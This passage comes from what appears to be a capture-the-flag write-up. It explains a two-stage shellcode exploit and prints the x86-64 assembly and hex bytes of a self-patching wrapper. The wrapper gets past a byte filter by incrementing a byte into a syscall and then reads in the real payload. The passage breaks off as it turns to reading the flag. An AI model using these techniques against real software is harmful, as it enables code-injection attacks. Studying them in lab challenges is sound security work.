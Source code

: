 As an example, the shellcode begins executing at 0x1234:

```
90 90 90 90 0f 05 90 90 90 90
```

(The `nop`s are placeholder bytes that would theoretically pass the check restriction.)

Before the syscall (`0f 05`), supposed it has already been populated (through the initial read) with the right wrapper shellcode that gets us

```c
read(0, 0x1234, 0x100)
```

The `read` `syscall` then executes, this time allowing us to fill the buffer with our *actual* shellcode.

```
41 41 41 41 41 41 80 81 82 83
```

Then the program execution continues, starting at where it left off (`80`).

A working wrapper shellcode is thus:

```asm
xor rax, rax
push rcx
mov edx, 0x10001
push rcx
push rsi
pop rbx
inc byte ptr [rbx+0x10]
0f 04 (bad)
push rcx
```

```
48 31 C0 51 BA 01 00 01 00 51 56 5B FE 43 10 0F 04 51
```

Note that this wrapper shellcode is slightly convoluted as we still have to bypass the initial check. The `push rcx` is an odd `nop` substitute.

We cannot directly pass in the `syscall` bytes as both bytes are odd. Instead we have to introduce a workaround to increment one of the bytes from within the shellcode itself (`04` in this case). The shellcode address is saved in `rax` and `rsi` so we could use either to work out the patch location.

After this, we get a normal read, and we can proceed on with our main shellcode.

---

## Part III

The rest is pretty straightforward, mostly following standard `orw`. The difference is of course there is no `w`, so how are we supposed to display the flag?
